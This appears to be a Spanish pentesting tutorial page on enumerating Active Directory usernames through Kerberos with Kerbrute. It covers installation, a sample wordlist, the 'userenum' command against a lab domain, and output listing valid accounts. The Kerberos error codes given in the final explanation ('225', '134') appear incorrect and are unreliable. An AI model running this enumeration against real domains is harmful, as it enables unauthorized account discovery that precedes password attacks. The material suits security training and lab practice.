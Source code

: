 ```yaml
---
icon: users-gear
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Enumeración de usuarios con Kerberos

Vamos a utilizar una aplicacion para realizar esta tecnica que no viene instalada por defecto en `kali` que se llama `Kerbrute`.

URL = [Kerbrute GitHub](https://github.com/ropnop/kerbrute)

Pero antes tendremos que instalar lo necesario para que esta herramienta pueda funcionar.

```shell
sudo apt install golang
```

Ya que esta herramienta esta creada en `Go`.

Ahora tendremos que modificar un momento nuestro fichero de `.zsh` para activar la ruta donde se va a ejecutar las aplicaciones que estan en `Go`.

```shell
sudo nano ~/.zshrc

#Dentro del nano
#Vamos añadir las siguiente lineas abajo del todo

export GOROOT=/usr/lib/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
```

Lo guardamos y haremos lo siguiente:

```shell
source ~/.zshrc
```

Esto lo hacemos para cargar la configuracion que hemos añadido, para que se actualice basicamente.

Ahora si podremos instalar la herramienta de la siguiente forma:

```shell
go install github.com/ropnop/kerbrute@latest
```

Info:

```
go: downloading github.com/ropnop/kerbrute v1.0.3
go: downloading github.com/op/go-logging v0.0.0-20160315200505-970db520ece7
go: downloading github.com/spf13/cobra v0.0.5
go: downloading github.com/ropnop/gokrb5 v7.2.1-0.20190226233023-10e0941da4e2+incompatible
go: downloading github.com/spf13/pflag v1.0.5
go: downloading github.com/jcmturner/gofork v1.0.0
go: downloading gopkg.in/jcmturner/dnsutils.v1 v1.0.1
go: downloading github.com/hashicorp/go-uuid v1.0.1
go: downloading golang.org/x/crypto v0.0.0-20191107222254-f4817d981bb6
go: downloading gopkg.in/jcmturner/rpc.v1 v1.1.0
go: downloading gopkg.in/jcmturner/aescts.v1 v1.0.1
```

Por lo que vemos se instalo correctamente, ahora si ejecutamos el siguiente comando para saber si esta bien instalado:

```shell
kerbrute -h
```

Veremos que nos muestra la informacion de la herramienta.

Para enumerar usuarios en el dominio y saber cuales existen y cuales no, podremos hacerlo de la siguiente forma, pero antes tendremos que obtener un listado de usuarios para realizar esa fuerza bruta.

Podremos obtenerlo de internet, de diccionarios por `GitHub`, etc... En este caso vamos a crear uno que sea dedicado al dominio para ver como nos encunetra los usuarios.

> users.txt

```
anatoli.vaz
empleado1
empleado2
empleado3
angelika.shelly
empleado4
empleado5
```

Guardamos el listado y ejecutamos la herramienta de la siguiente forma:

```shell
kerbrute userenum -d corp.local --dc 192.168.5.5 users.txt
```

Info:

```

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 04:36:05 >  Using KDC(s):
2025/01/14 04:36:05 >   192.168.5.5:88

2025/01/14 04:36:05 >  [+] VALID USERNAME:       empleado1@corp.local
2025/01/14 04:36:05 >  [+] VALID USERNAME:       empleado2@corp.local
2025/01/14 04:36:05 >  [+] VALID USERNAME:       angelika.shelly@corp.local
2025/01/14 04:36:05 >  Done! Tested 7 usernames (3 valid) in 0.007 seconds
```

Y vemos que nos encontro 3 usuarios validos.

Esto funciona de la siguiente manera, la herramienta esta enviando el nombre de usuario al `AS-REQ` y este verifica si el nombre es valido para forjar el `Ticket`, pero cuando ve que es valido necesita un `Preverificacion` y nos da el codigo `225` pero cuando el nombre no es valido nos de el error `134`, por lo que la herramienta solo se queda con los codigos `225` que son los que han validado el usuario el `AS`.
